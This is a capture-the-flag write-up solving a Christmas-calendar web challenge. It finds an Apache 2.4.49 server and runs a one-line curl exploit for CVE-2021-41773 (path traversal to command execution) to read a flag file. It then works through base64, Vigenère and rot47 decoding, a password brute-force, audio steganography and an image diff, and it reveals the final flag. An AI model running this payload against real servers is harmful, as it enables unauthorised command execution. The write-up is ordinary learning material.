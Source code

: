 # Challenge

So you really want to get tickets for DJ Oiler's Monster Bash at Santa's Rave Party.

I guess you'd better head on over to:

http://santasticketoffice.norwayeast.azurecontainer.io

before they sell out... You really don't want to miss out on DJ Oiler and DrCiRCUiT and the Stack Tracers!

> **Hint:** So this seems strangely familiar, yet differen't... And btw you may need to consult Allsafe Cybersecurity's 1337 guy down the line... or not who knows :)

# Writeup

Started with exiftool on image from the website, nothing! Used whatweb on the site and it clearly shows apache 2.4.9.

```bash
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24/web]
└─$ whatweb -a 3 http://santasticketoffice.norwayeast.azurecontainer.io/
http://santasticketoffice.norwayeast.azurecontainer.io/ [200 OK] Apache[2.4.49], Bootstrap[4.5.2], Country[UNITED STATES][US], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[20.100.165.5], Title[Santa's Ticket Office]
```

Quick search on exploit-db shows [CVE 2021-41773](https://www.exploit-db.com/exploits/50383). Quickly modified tested the script from exploit-db and it works. Found out by browsing `ls /` it had a flag.txt. So here is how I extracted that:

```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /flag.txt" "http://santasticketoffice.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

${...}
Nope, no flag here. Did you really think it would be this simple?
Not when Dj Oiler is involved! 
But you did find something... you managed to find this ticket:
VkJFVDovL2pvdmVlamZpZ2kuZWN6aGVwc2lkeC5ybmNjaXRjdmVlemJtYy5tZg==

Well in the mean time you can find the key for this cipher here:

 ▄▄▄▄▄▄▄   ▄ ▄▄▄▄ ▄▄▄ ▄ ▄  ▄▄▄▄▄▄▄
 █ ▄▄▄ █ ▀ ▀ ▄█▀█▀▀  ▄▄▄▄▀ █ ▄▄▄ █
 █ ███ █ ▀█▀ ▀ ▀█▄█▄▄█ ▀██ █ ███ █
 █▄▄▄▄▄█ █▀▄▀█ ▄ ▄ █ █ █ █ █▄▄▄▄▄█
 ▄▄▄▄▄ ▄▄▄█▀█  ▀ █▄▀ ▀▀█▀█▄ ▄ ▄ ▄ 
  ▄▀██▄▄ █ █ ▀███▄▀█▀▀▀▀▀ ▀▀  ▄▀█▀
  ▄▄▄  ▄▀▀▄▄ █▀▄█ ▄ █▀▀▄ ▄▄▀█▄▄▀  
 █ ▄▀▄▄▄  ▀▄▄▄  ▀▀ ▀▀▀█▄▀  █▄▄  █▀
 ▀▀ █▄█▄███ █  ▀ █▄▀█▀▀▀▀ █ ▄█ ▀▄ 
   ▀▄ █▄▄ ▀▄ ▀███▄ ▀▀▄ ▄▀▄▄▀  █ █▀
  ▀▄▀▀█▄█▀█  █▀▄█ ▄▀▀▄▀▄█▄█ ██ ▀▄ 
 █ █▄▀▄▄▀██▄▄▄  ▀▀ ▀▀█▀█▀▀▀▀▄▄█ █▀
 █ █▄ ▄▄█▀█▄█  ▀ ▀▄ ▀█▀█ ████▄▀▀ ▄
 ▄▄▄▄▄▄▄ █▄▀ ▀███▄█▀▀█▄ ██ ▄ █ ▄▄▀
 █ ▄▄▄ █ ▄▄  █▀▄▀▄▄▀█▀▀█ █▄▄▄██▀█ 
 █ ███ █ █ ▄▄▄  ▄███▀▀ ▄   ▄▀▀▀█▀▀
 █▄▄▄▄▄█ ██▄█  ▀█▀▄  ▀▀▄█▄▀██▀▀▀▄ 


Last letter i R...
```

Base64 data: `VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf`
QR Code: `https://htbbinaries.z1.web.core.windows.net/hiddenkey`

Started decoding the base64 data and as I knew the url format I easily guessed the first 5 letters of the subdomain to be `santas`.

```
VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf
http://----------.norwayeast.azurecontainer.io
       santas....

j = s
nve = nta
so.. santas <4 letters>
```

Starting my DNS hammer, while searching for clues on what it might be on the websites.

I came as far as: `santsabdjt.norwayeast.azurecontainer.io` when it suddenly came to me, the title invites us to "santas rave".. So maybe that is all? I tested it and got a hit!

Edit: Turns out to be Vigenere Decode using keyword: oiler, probably extractable from the hiddenkey as it hints with the QR code. But with so many known variables it is also easier to guess.

Whatweb on santasrave:

```
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24]
└─$ whatweb -a 3 http://santasrave.norwayeast.azurecontainer.io/
http://santasrave.norwayeast.azurecontainer.io/ [200 OK] Country[UNITED STATES][US], HTML5, IP[20.100.161.219], Title[Welcome to Santas Rave!], X-UA-Compatible[IE=edge]
```

Alt text on image says: `find djoilersmonsterbash.cue and .bin files`
Comment below: `Then maybe Santa can tell you where to go next?`

Santa tells me:
```
Author                          : DrCiRCUiT enjoys the key CHRISTMAS
Artist                          : OUVFQWleXjY9PTpARURBMkRESEBDNTc6PzU2Q10/QENIMko2MkRFXTJLRkM2NEA/RTI6PzZDXTpA
Comment                         : 64->47->www`
```

Gobuster quickly found /promo on the website where I found the .cue and .bin files. Used PowerISO to extract the wav files which. Exiftool or steghide (with password "CHRISTMAS") did not work. So started soon enough on the santa image. URL was base64 decoded, then rot47 and I got the following url: `http://elliotspasswordfinder.norwayeast.azurecontainer.io`

![elliots password finder](elliotspasswordfinder.png)

10 tracks, 10 keys, after a while I build a [quick bruteforce script](brute.js) as I had nothing to go on here. I tried different words, from the website. Lots of different stuff, suddenly I had a hit on our main guy DJ Oiler! "oiler" was the 7th key. So I tried different people I know. Even WCH. Nothing.

With a loss of stuff to try I tried the names of all the songs. And here we go! 

```
Testing: crypto
Testing: stego
Testing: constant
Testing: pain
1 - pain = success
Testing: breakpoint
2 - breakpoint = success
Testing: dancing
Testing: meltdown
Testing: overflow
Testing: my
Testing: buffer
4 - buffer = success
Testing: pop
Testing: my
Testing: stack
5 - stack = success
Testing: hardware
6 - hardware = success
Testing: problem
Testing: oct31
Testing: catch
Testing: my
Testing: exception
8 - exception = success
Testing: hackers
Testing: assemble
9 - assemble = success
Testing: drcircuit
Testing: and
Testing: the
Testing: stack
5 - stack = success
Testing: tracers
Testing: ctf
```

1, 2, 4, 5, 6, 8 and 9 all hits. So looking at why number 3 fails. Only 1 word. So I listen to it and hear the following 3 words `meltdown initiated execute` and to my surprise it hits on execute! Now I continue doing that on all of the missing, taking the lyrics and after a while I got them all.

```
1 = pain
2 = breakpoint
3 = execute
4 = buffer
5 = stack
6 = hardware
7 = oiler
8 = exception
9 = assemble
10 = blues
```
Pressing all the keys and open them one by one reveals after a while the password:

![reveal](elliotspasswordfinder-solved.png)

Now really knowing where to go from here I did google "hide files in wav" shows the second hit: [The Hacks of Mr. Robot: How to Hide Data in Audio Files](https://null-byte.wonderhowto.com/how-to/hacks-mr-robot-hide-data-audio-files-0164136/) which talks about "DeepSound"

Quickly opening track 1 asked for a password, pasted in "GiveMyRegardsToElliott!" and got a file. Same for 2, nothing for 3-9 but 10 asked for password but did not work.

![deepsound](deepsound.png)

Looked at the two hidden files I found called "hidden-1.png" and "hidden-2.png", exittool shows a comment on the first file `Split the difference...`. So I open up a diff checker [Image Diff Checker](https://www.diffchecker.com/image-compare/) and got this.

![image](hidden-diff.png)

`${M3RRY_C4RI57M@5_FROM_DNB_N3W73C4_l@B!}`